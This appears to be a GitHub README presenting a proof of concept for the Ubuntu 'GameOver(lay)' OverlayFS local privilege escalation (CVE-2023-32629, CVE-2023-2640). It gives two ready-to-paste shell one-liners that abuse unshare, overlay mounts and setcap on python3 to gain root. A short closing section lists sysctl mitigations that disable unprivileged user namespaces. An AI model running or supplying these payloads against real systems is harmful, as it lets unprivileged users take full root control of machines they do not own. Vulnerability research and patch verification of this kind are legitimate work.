 # Ubuntu GameOver(lay) Local Privilege Escalation CVE-2023–32629 & CVE-2023–2640

## original poc payload
```
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'
```
## adjusted poc payload by twitter user; likely false positive
```
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"id\")'"
```


### note
If you are unable to upgrade your kernel version or Ubuntu distro, you can alternatively adjust the permissions and deny low priv users from using the OverlayFS feature.
change permissions on the fly, won't persist reboots
```
sudo sysctl -w kernel.unprivileged_userns_clone=0
```
<br>
change permissions permanently; requires reboot
<br><br>

```
echo kernel.unprivileged_userns_clone=0 | sudo tee /etc/sysctl.d/99-disable-unpriv-userns.conf
```


<br><br><br>

==================================================================================
